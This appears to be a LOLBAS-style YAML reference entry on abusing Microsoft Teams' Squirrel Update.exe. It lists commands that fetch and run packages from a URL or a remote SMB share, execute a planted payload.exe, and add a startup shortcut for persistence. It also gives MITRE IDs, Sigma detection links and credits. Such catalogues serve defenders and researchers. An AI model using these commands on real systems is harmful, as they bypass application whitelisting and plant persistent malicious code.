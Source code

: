 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Oddvar Moe'
Created: 2019-06-26
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --createShortcut=payload.exe -l=Startup
    Description: Copy your payload into "%localappdata%\Microsoft\Teams\current\". Then run the command. Update.exe will create a payload.exe shortcut in "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup". Then payload will run on every login of the user who runs it.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1547
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --removeShortcut=payload.exe -l=Startup
    Description: Run the command to remove the shortcut created in the "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" directory you created with the LolBinExecution "--createShortcut" described on this page.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1070
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\update.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: https://twitter.com/reegun21/status/1291005287034281990
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
  - Link: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/
Acknowledgement:
  - Person: Reegun Richard Jayapaul (SpiderLabs, Trustwave)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Jesus Galvez
---
```

